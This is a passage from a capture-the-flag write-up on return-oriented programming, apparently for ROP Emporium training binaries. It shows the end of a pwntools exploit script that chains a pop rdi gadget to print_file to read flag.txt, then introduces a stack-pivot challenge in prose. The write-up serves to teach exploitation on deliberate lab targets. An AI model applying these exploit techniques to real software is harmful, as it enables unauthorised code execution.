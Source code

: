 ```Python
		continue
            # print(binascii.hexlify(payload[i:i+8]))

io = process(target)

#Fill up the buffer and the base pointer
payload = junk + new_bp

payload += write_string(write_loc, b"flag.txt")

# This is the vaddr of system
# First return to the location of the pop rdi
payload += pop_rdi(write_loc)
payload += print_file

payload += back_junk


# print("The payload is:")
# print(payload)
print("Payload size is:" + str(len(payload)))
print("Pop RBX takes up: " + str(pop_rbx_size))
input("Hit enter to apptempt exploit")
print(io.clean(0.5).decode("utf-8"))
io.send(payload)

input("exploit sent hit enter to end")

print(io.clean(0.5).decode("utf-8"))
sleep(1)

f = open('./payload', 'wb')
f.write(payload)
f.close()

```
## Challenge 7

Continuing to work our way through common problems with creating ROP exploits, what happens if you run out of space (like I did last challenge) and you can't shrink your payload anymore? Well, if you can write data into other locations on the stack then you can just write your payload there and call it from your smaller area. Which is exactly what this challenge is about.

> There's only enough space for a small ROP chain on the stack, but you've been given space to stash a much larger chain elsewhere. Learn how to pivot the stack onto a new location.


However, there's another challenge that we face in this binary. Rather then having a print_file function we have a ret2win function. Which is nice, but it is placed in an linked library and not normally called, so there is no static address to call it by. 

However first things first, lets get access to the larger exploit chain.
